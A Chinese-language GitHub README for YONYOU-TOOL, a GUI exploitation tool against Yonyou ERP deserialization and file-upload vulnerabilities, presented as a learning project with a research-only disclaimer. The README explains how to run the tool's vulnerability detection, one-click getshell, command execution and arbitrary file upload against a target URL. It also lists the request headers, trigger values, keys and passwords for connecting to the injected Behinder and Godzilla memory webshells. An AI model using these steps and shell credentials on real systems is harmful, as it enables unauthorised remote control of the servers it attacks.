 # YONYOU-TOOL

用于用友漏洞一键利用。

学习用友漏洞期间一时兴起，写一款工具记录学习。

工具开发期间，感谢 **SpringKill** 师傅指点。

## 免责声明

本工具仅适用于安全研究学习，严禁使用本工具发起网络黑客攻击，造成法律后果，请使用者自负。

## 支持漏洞

```
ActionHandlerServlet 反序列化 (ActionHandlerServlet)
Lfw_Core_Rpc 文件上传 (Lfw_Core_Rpc_Upload)
```

后续根据学习进度佛系更新完善poc。

## 使用说明

java -jar 启动。

```
java -jar YONYOU-TOOL-[version].jar
```

目前实现功能模块：漏洞探测、一键getshell、命令执行、文件上传。

![image-20240803011214957](/Users/chave/GitHubRepository/YONYOU-TOOL/assets/image-20240803011214957.png)

### 漏洞探测

以 **ActionHandlerServlet 反序列化** 漏洞为例。

选择漏洞，填写必要信息，点击探测，可自行在 dnslog 平台查看结果。

![image-20240803011544819](/Users/chave/GitHubRepository/YONYOU-TOOL/assets/image-20240803011544819.png)

### 一键getshell

支持一键 getshell。目前 getshell 方式均以打入内存马方式实现，同时注入回显、冰蝎、哥斯拉。

```
Filter 内存马连接地址：http://x.x.x.x/...网站目录.../*
--------------------------------------------------------------------------------------------
回显
添加请求头
x-client-referer:http://www.baidu.com/
x-client-data:testzxcv
testzxcv:<base64编码后命令>
--------------------------------------------------------------------------------------------
冰蝎
添加请求头
x-client-referer:http://www.baidu.com/
x-client-data:behinder
密码
chaveyyds
--------------------------------------------------------------------------------------------
哥斯拉
添加请求头
x-client-referer:http://www.baidu.com/
x-client-data:godzilla
密钥
chaveyyds
密码
pass
```

以 **Lfw_Core_Rpc 文件上传** 漏洞为例。

选择漏洞，输入目标url，点击 getshell。

![image-20240803012708205](/Users/chave/GitHubRepository/YONYOU-TOOL/assets/image-20240803012708205.png)

根据连接信息连接利用即可。

![image-20240803013644223](/Users/chave/GitHubRepository/YONYOU-TOOL/assets/image-20240803013644223.png)

![image-20240803013249129](/Users/chave/GitHubRepository/YONYOU-TOOL/assets/image-20240803013249129.png)

![image-20240803013956646](/Users/chave/GitHubRepository/YONYOU-TOOL/assets/image-20240803013956646.png)

### 命令执行

以 **ActionServletHandler 反序列化** 漏洞为例。

进入 **命令执行** 模块，输入命令，点击执行即可，目前该漏洞已支持 **CC6** 与 **freemarker.template.utility.Execute** 两种命令执行。

![image-20240803012445202](/Users/chave/GitHubRepository/YONYOU-TOOL/assets/image-20240803012445202.png)

### 文件上传

以 **Lfw_Core_Rpc 文件上传** 漏洞为例。

选择漏洞，进入文件上传模块，输入文件名，文件内容，点击上传即可。

![image-20240803014217507](/Users/chave/GitHubRepository/YONYOU-TOOL/assets/image-20240803014217507.png)

![image-20240803014246830](/Users/chave/GitHubRepository/YONYOU-TOOL/assets/image-20240803014246830.png)

## 更新记录

### 20240724

- v1.0 版本发布，命令行工具版本。
- 支持漏洞 **ActionServletHandler 反序列化** 探测利用。

### 20240803

- v2.0 版本发布，实现图形化。
- 新增命令执行回显模块。
- 新增文件上传模块。
- 支持漏洞 **Lfw_Core_Rpc 文件上传** 探测利用。

## 最后

开发过程中参考相关漏洞利用工具：

- https://github.com/wafinfo/NCTOOls

- https://github.com/R4gd0ll/I-Wanna-Get-All

工具以记录自己学习为主，本人佛系更新。

工具开源，有需要可自行在 com.chave.vuln 包内添加漏洞 poc。